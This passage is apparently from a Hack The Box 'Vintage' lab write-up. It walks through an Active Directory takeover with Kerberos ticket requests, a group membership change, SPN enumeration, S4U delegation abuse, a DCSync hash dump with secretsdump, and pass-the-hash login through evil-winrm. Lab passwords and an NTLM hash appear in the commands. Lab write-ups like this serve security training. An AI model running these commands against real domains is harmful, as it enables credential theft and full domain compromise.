

Lets add out self to the delegate group first 

```BASH
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Vintage]
└─$ impacket-getTGT -dc-ip dc01.vintage.htb 'vintage.htb/c.neri_adm:Uncr4ck4bl3P4ssW0rd0312'
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in c.neri_adm.ccache
```

```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Vintage]
└─$ export KRB5CCNAME=c.neri_adm.ccache
```

```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Vintage]
└─$ bloodyAD --host dc01.vintage.htb --dc-ip 10.129.65.240 -d vintage.htb -k add groupMember 'DELEGATEDADMINS' 'c.neri_adm'
```

to setup we need to find the account with SPN so lets start enumerating using nxc

```bash
nxc ldap dc01.vintage.htb --use-kcache --query "(servicePrincipalName=*)" "sAMAccountName servicePrincipalName"
```



`FS01` is setuped with SPN and also we have setuped svc_sql account with an fake spn for kerberoasting : ) which has been lost when i resetted the lab for now we can use FS01

After setting delegation on FS01


we can request ticket for dc01 of cifs service and use the service ticket to access DC01

```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Vintage]
└─$ impacket-getST -spn 'cifs/dc01.vintage.htb' -impersonate 'dc01$' 'vintage.htb/fs01$:fs01' -dc-ip dc01.vintage.htb
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating dc01$
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in dc01$@cifs_dc01.vintage.htb@VINTAGE.HTB.ccache
```

and then we dcsync and dump all the ntlm hash

```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Vintage]
└─$ impacket-secretsdump 'vintage.htb/dc01$@dc01.vintage.htb' -dc-ip dc01.vintage.htb -k -no-pass 
```

 i wasnt able to access the winrm of administrator but from previous enumeration we know that the L.BIANCHI_ADM@VINTAGE.HTB is part of domain admin so we can try it

```bash
┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Vintage]
└─$ impacket-getTGT vintage.htb/L.Bianchi_adm@dc01.vintage.htb -hashes :296c512563f8d5dedb8aa84f04ee0cdf
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in L.Bianchi_adm@dc01.vintage.htb.ccache

┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Vintage]
└─$ export KRB5CCNAME=L.Bianchi_adm@dc01.vintage.htb.ccache

┌──(penguin㉿0X0F)-[~/CAPE_Boxes/Vintage]
└─$ evil-winrm -i dc01.vintage.htb -r vintage.htb
```

i was still confused why we werent able to login with adminstrator account after some bit searching found that accounts can be restricted how they are logged on  !! 




